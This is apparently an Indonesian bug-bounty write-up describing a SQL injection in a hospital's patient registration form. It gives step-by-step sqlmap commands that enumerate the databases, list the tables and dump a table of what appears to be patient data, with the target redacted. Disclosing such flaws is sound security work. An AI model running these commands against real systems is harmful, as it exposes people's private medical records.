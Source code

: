 ```yaml
---
title: "P1 SQL Injection Form Pendaftaran Rumah Sakit"
date: 2023-12-28T13:39:57+07:00
draft: true
tags:
- bugbounty
---
```

Saat akan daftar disalah satu rumah sakit tiba tiba kepikiran bisa gak sih form iin di inject?
# POC
1. Buka form pendaftaran, isikan dengan random data

![Form login](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/1.png)

2. Intercept post data dengan OWASP ZAP

![POST data](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/2.png)

3.  Setelah itu coba dengan sqlmap 
```
sqlmap -u https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --dbs --threads 2
```

![Database name](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/3.png)

4. Lihat isi table salah satu database
```
sqlmap -u "https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --threads 2 -D redacted-database --tables
```


![Table](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/4.png)

5. Dump table 
```
 sqlmap -u "https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --threads 2 -D redacted-database  -T redacted-table --dump
```

6. Hasil dump adalah file .csv yang jika dibuka akan menampilkan informasi dibawah ini

![Hasil](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/5.png)
